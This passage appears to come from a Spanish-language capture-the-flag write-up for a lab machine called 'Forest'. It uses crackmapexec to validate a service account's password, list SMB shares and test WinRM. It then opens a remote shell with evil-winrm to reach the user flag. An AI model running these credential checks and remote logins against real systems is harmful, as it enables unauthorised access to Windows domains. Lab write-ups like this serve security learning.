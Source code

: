 
```bash
crackmapexec smb 10.10.10.161 -u "svc-alfresco" -p "s3rvice"
```


{:.note}
Son credenciales validas.


```bash
crackmapexec smb 10.10.10.161 -u "svc-alfresco" -p "s3rvice" --shares
```


{:.note}
**NETLOGON** y **SYSVOL** son shares alos que tenemos accesos.


```bash
crackmapexec winrm 10.10.10.161 -u "svc-alfresco" -p "s3rvice"
```


{:.note}
Esto lo hacemos para comprobar si podemos acceder con EvilWimRM.


![list](/assets/img/forest/Kali-2022-09-13-22-40-01.png){:.lead width="800" height="100" loading="lazy"}


```bash
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```


{:.note}
La flag esta en el ecritorio del usuario no privilegiado.


![list](/assets/img/forest/Kali-2022-09-13-23-26-50.png){:.lead width="800" height="100" loading="lazy"}

